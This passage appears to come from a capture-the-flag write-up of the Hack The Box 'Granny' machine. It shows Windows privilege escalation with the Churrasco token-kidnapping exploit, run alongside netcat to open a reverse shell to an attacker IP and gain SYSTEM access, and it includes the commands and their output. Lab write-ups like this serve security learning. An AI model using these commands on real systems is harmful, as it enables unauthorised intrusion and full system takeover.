 ```
Program too big to fit in memory

C:\WINDOWS\Temp>
```

So MS14-070 is not working.

Let's do the token kidnapping. I googled the name of the exploit and found the exploit-db page: https://www.exploit-db.com/exploits/6705 

You can either compile churrasco.exe from the link in the exploit-db, or just download it here: https://github.com/Re4son/Churrasco 

Churrasco will let us run any command as root. So we just need to upload churrasco and netcat, and then just connect back to us. And we will have root.


```
C:\WINDOWS\Temp>copy \\10.10.14.21\smb\churrasco.exe churrasco.exe
copy \\10.10.14.21\smb\churrasco.exe churrasco.exe
        1 file(s) copied.

C:\WINDOWS\Temp>copy \\10.10.14.21\smb\nc.exe nc.exe
copy \\10.10.14.21\smb\nc.exe nc.exe
        1 file(s) copied.
```
Now we just run the standard nc reverse shell command after churrasco.

```
C:\WINDOWS\Temp>churrasco.exe -d "nc.exe 10.10.14.21 1338 -e cmd.exe"
churrasco.exe -d "nc.exe 10.10.14.21 1338 -e cmd.exe"
/churrasco/-->Current User: NETWORK SERVICE 
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 676 
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 680 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684 
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 696 
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x72c
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x724
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!

C:\WINDOWS\Temp>
```

And on our listener:

```
kali@kali:~/htb/Granny$ sudo rlwrap nc -nlvp 1338
[sudo] password for kali: 
Listening on 0.0.0.0 1338
Connection received on 10.129.85.241 1039
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
```
